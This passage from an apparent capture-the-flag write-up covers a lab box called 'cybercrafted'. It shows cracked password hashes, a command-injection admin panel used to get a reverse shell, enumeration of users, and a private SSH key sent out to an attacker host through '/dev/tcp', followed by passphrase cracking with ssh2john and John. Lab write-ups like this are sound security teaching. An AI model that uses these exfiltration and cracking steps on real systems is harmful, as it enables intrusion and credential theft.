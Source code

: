 ```bash
diamond123456789 (?)
1g 0:00:00:02 DONE (2021-11-22 17:58) 0.4366g/s 3771Kp/s 3771Kc/s 3771KC/s diamond1336..diamond123123
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
#### Command Injection
We successfully cracked the hash. We can try ssh-ing to the box with these creds, but it didn't work. We also had a *Admin* Panel. Using the credentials, we had a successful login.
The webpage allow us to run commands on the system. There was no filtering/blacklisting so we can easily get a reverse shell using it

![image](https://user-images.githubusercontent.com/43528306/142862112-d50f447d-083a-4b3b-97e2-1b81e9f34c8a.png)


## Shell as www-data
We now have shell as `www-data` user. Looking in the directory, we have a file named `dbConn.php`. Checking the contents
```php
www-data@cybercrafted:/var/www/admin$ cat dbConn.php
cat dbConn.php
<?php

$db_host = "localhost";
$db_user = "root";
$db_pwd = "";
$db_name = "webapp";

$conn = mysqli_connect($db_host, $db_user, $db_pwd, $db_name);

if (!$conn){
    echo "Connection Failed!";
```
There was no password being used to connect to database. Also we already dumped the data, so it was of no use.

Checking other users available on the box
```bash
www-data@cybercrafted:/var/www/admin$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
xxultimatecreeperxx:x:1001:1001:,,,:/home/xxultimatecreeperxx:/bin/bash
cybercrafted:x:1002:1002:,,,:/home/cybercrafted:/bin/bash
```

Looking in the home directory of each user, we had access to `xxultimatecreeperxx` user's home directory. Also it contains ssh private key. We can transfer it to our box
and ssh into the target using private key as `xxultimatecreeperxx` user.

```bash
# attacker
nc -lvnp 9991 > id_rsa

# victim
cat /home/xxultimatecreeperxx/.ssh/id_rsa > /dev/tcp/<IP>/9991
```
The SSH-key had a passphrase. Once again, we can use John to crack it. We need to use `ssh2john` script which converts SSH-key into John readable format.
Running john against the SSH-key's hash and we got the passphrase. We can now login as user on the box.
```bash
 j hash                                   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
```